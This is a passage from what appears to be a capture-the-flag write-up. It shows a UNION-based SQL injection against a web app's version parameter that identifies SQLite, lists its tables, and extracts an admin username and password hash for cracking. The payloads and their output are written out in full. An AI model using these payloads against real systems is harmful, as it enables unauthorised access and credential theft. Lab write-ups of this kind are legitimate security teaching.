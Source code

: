 The output is as shown:

{% code overflow="wrap" %}
```
$ python3 exploit.py
{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
```
{% endcode %}

I tried playing around with the version number, and it would raise an `Invalid Version!` error each time it wasn't set to `0.0.2`. When I appended a `"`, it would print nothing, indicating that there was an error in the backend since the code catches errors.&#x20;

I played around with some UNION SQL injection, and found that the payload of `0.0.2"UNION SELECT 1,2,3,4;-- -` generated **no errors.** Changing the number of columns results in an error, indicating that this application is indeed vulnerable to SQL Injection.&#x20;

We can confirm the DBMS used by trying different version commands, and I found that `sqlite_version()` works.

```
$ python3 exploit.py
{"message": {"id": "3.37.2", "version": 2, "released_date": 3, "downloads": 4}}
```

With this, we can extract the tables present in `sqlite_schema`.

{% code overflow="wrap" %}
```
{"message": {"id": "sqlite_sequence,versions,users,info,reports,answers", "version": 2, "released_date": 3, "downloads": 4}}
```
{% endcode %}

There's a `users` table, and we can try to extract a username and password from it.&#x20;

{% code overflow="wrap" %}
```
payload used: 0.0.2"UNION SELECT username,password,3,4 from users;-- -
{"message": {"id": "admin", "version": "0c090c365fa0559b151a43e0fea39710", "released_date": 3, "downloads": 4}}
```
{% endcode %}

Great! The hash can be cracked on crackstation:

<figure><img src="../../.gitbook/assets/image (7) (1) (3) (2).png" alt=""><figcaption></figcaption></figure>

